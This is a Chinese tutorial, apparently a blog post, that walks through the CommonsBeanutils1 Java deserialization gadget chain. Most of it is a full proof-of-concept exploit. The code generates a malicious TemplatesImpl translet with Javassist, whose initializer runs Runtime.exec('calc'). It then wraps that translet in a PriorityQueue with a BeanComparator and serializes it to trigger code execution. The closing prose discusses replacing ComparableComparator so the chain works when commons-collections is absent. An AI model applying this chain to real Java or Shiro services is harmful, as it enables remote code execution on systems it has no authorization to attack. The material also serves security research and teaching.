 ```java
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

public class cb1 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        ClassPool classPool=ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass payload=classPool.makeClass("CommonsBeanutils1");
        payload.setSuperclass(classPool.get(AbstractTranslet));
        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes=payload.toBytecode();

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{bytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        final BeanComparator comparator = new BeanComparator();
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add(1);
        queue.add(1);
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cb1"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cb1"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```
但运行时发送报错
![](https://img-blog.csdnimg.cn/5263b227a4a44317a81f75ba347acfbc.png)
发现`org.apache.commons.beanutils.BeanComparator`这个类调用了`org.apache.commons.collections.comparators.ComparableComparator`
![](https://img-blog.csdnimg.cn/85f883f9f2e044e28021f2522a244372.png)
在 BeanComparator 类的构造函数处，当没有显式传入 Comparator 的情况下，则默认使用 ComparableComparator
![](https://img-blog.csdnimg.cn/252677e6ce394edca74d783e1c90649b.png)
既然此时没有 ComparableComparator ，我们需要找到一个类来替换，它满足下面这几个条件:
- 实现 java.util.Comparator 接口
- 实现 java.io.Serializable 接口
- Java、shiro或commons-beanutils自带，且兼容性强
